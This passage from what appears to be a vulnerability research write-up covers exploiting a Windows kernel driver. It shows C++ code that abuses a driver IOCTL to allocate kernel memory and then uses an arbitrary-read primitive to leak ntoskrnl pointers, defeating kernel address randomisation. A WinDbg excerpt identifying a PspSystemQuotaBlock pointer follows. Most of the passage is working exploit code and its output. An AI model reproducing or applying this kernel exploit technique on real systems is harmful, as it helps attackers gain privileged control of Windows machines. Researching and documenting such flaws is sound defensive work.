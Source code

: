 ```c++
            (ULONGLONG)0x100,  // Allocate block of 0x100 size
            (ULONGLONG)&output_buff, // Make the rest all the same - 'cause why not
            (ULONGLONG)&output_buff,
            (ULONGLONG)&output_buff,
            (ULONGLONG)&output_buff,
            (ULONGLONG)&output_buff
        };
        // MmAllocateContiguousMemorySpecifyCache
        if (DeviceIoControl(device_handle, LEAK_TARGET_IOCTL_CODE, &input_buff, sizeof(input_buff), &output_buff, sizeof(output_buff), &bytes_returned, NULL)) {
            // Ensure returned address is infact a kernel space address
            if (input_buff.address0 > 0xfff0000000000000) {
                // Iterate over and read qwords in allocated virtual space
                for (int b = 0x0; b < 0x80; b += 0x8) {
                    ULONGLONG check = arbitrary_read(device_handle, (ULONGLONG)(input_buff.address0+b));
                    // Check that the returned value is inside ntoskrnl (MmSystemRangeStart)
                    if (check > 0xfffff80000000000 && check < 0xfffff90000000000) {
                        printf_s("%llx\n", check);
                    }
                }
            }
        }
    }
    return 0x0;
}
```

While I sometimes got very promising values which were direct pointers to exported `ntoskrnl` functions, unfortunately these were few and far between. I needed a very consistent value to work from, and the most consistent was obviously something that necessitated some more work.

![Oops...](../assets/img/pdfwkrnl-count-pspquota.png)

Inspecting the most common returned value in WinDBG indicated it was a pointer to the `PspSystemQuotaBlock` structure, something that Google has ~10 results for.

```d
0: kd> u fffff80230453880
nt!PspSystemQuotaBlock:
...
```
